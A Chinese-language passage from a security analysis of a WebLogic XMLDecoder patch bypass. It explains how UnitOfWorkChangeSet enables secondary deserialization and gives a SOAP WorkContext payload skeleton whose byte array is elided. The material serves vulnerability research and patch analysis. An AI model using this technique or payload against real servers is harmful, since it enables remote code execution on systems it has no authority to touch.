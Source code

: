 ```
                  if(qName.equalsIgnoreCase("array")) `{`

                     String var9 = attributes.getValue("class");

                     if(var9 != null &amp;&amp; !var9.equalsIgnoreCase("byte")) `{`

                        throw new IllegalStateException("The value of class attribute is not valid for array element.");

                     `}`
```

这次的补丁内容我们文字化一下：
1. 禁用object、new、method标签
1. 如果使用void标签，只能有index属性
1. 如果使用array标签，且标签使用的是class属性，则它的值只能是byte
这次的补丁可以说是比上一次严格的多，前两点虽然很大程度上限制了我们不能随意生成对象，调用方法，但好在还有一个class标签可以使用，最关键的还在于第三点，它限制了我们的参数不能再是String类型，而只能是byte类型，所以我们的思路只能从这一点出发，整理一下思路，我们要寻找的是这样一个类：
1. 他的成员变量是byte类型
1. 在该类进行实例化的时候就能造成命令执行。
于是便有了oracle.toplink.internal.sessions.UnitOfWorkChangeSet来满足我们的需求。

看一下构造函数，该类会对传给它的byte值进行反序列化，可以看到这是一个标准的二次反序列化，于是满足二次反序列的payload应该都可以用，如AbstractPlatformTransactionManager、7u21等等。

[![](https://p2.ssl.qhimg.com/dm/1024_192_/t011c64761dda4c67de.png)](https://p2.ssl.qhimg.com/dm/1024_192_/t011c64761dda4c67de.png)

具体payload如下:

```
&lt;?xml version="1.0" encoding="utf-8"?&gt;
&lt;soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"&gt;
    &lt;soapenv:Header&gt;
        &lt;work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"&gt;
            &lt;java&gt;&lt;class&gt;&lt;string&gt;oracle.toplink.internal.sessions.UnitOfWorkChangeSet&lt;/string&gt;&lt;void&gt;&lt;array class="byte" length="8970"&gt;
                &lt;void index="0"&gt;
                &lt;byte&gt;-84&lt;/byte&gt;
                ...
                ...
            &lt;/array&gt;&lt;/void&gt;&lt;/class&gt;
            &lt;/java&gt;
        &lt;/work:WorkContext&gt;
    &lt;/soapenv:Header&gt;
    &lt;soapenv:Body/&gt;
&lt;/soapenv:Envelope&gt;
```

关于二次反序列的原理不再一一分析，大佬们早已经给出了非常详尽的解释，有兴趣可以去廖大神的博客（[http://xxlegend.com）学习一下，也可以选择读一下ysoserial的7u21](http://xxlegend.com%EF%BC%89%E5%AD%A6%E4%B9%A0%E4%B8%80%E4%B8%8B%EF%BC%8C%E4%B9%9F%E5%8F%AF%E4%BB%A5%E9%80%89%E6%8B%A9%E8%AF%BB%E4%B8%80%E4%B8%8Bysoserial%E7%9A%847u21)模块代码就ok。

针对此次漏洞，官方给出的修复补丁处理比较简单，禁用class标签。
